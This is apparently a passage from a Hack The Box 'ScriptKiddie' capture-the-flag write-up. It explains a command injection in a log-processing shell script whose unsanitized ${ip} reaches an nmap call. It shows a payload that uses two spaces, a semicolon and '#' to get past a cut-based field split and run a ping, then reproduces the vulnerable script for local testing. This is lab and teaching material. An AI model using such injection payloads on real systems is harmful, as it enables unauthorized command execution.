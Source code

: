 ![Vulnerable](/assets/posts/ctf/hackthebox/machines/scriptkiddie/img/vuln.png)
_Vulnerable code_

Thus, we can exploit on `line 7` since no sanitization on `${ip}`. We can inject OS command with little tweaks and bypass `line 6: cut -d' ' -f3-`. 

1. We need to add `single semicolon (;)` to close nmap command.

2. Add `two (2) whitespaces` to bypass the delimiter and three (3) field of interest.

3. Add `number sign or hashtag (#)` to comment out whatever code after ${ip}.

Ping payload as follows:

```bash
echo "  ;/bin/bash -c 'ping 127.0.0.1' #"
```

Example:

```terminal
# No space
$ echo ";/bin/bash -c 'ping 127.0.0.1' #" | cut -d' ' -f3-
'ping 127.0.0.1' #

# One space
$ echo " ;/bin/bash -c 'ping 127.0.0.1' #" | cut -d' ' -f3-
-c 'ping 127.0.0.1' #

Two spaces
$ echo "  ;/bin/bash -c 'ping 127.0.0.1' #" | cut -d' ' -f3-
;/bin/bash -c 'ping 127.0.0.1' #
```

We customize the `scanlosers.sh` and trigger the ping command locally.

```bash
#!/bin/bash

log=/mnt/hgfs/1337/CTF/HackTheBox/Machine/ScriptKiddie/www/ip.txt

cd /mnt/hgfs/1337/CTF/HackTheBox/Machine/ScriptKiddie/www
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    echo ${ip}
    sleep 5
    echo "[+] NMAP start"
    sleep 5
    echo "[+] Injecting on ${ip}"
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
    echo "[+] DONE inject"
    sleep 5
done
echo "[+] DONE LOOP"

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; echo "[+] DONE CLEAR"; fi
```
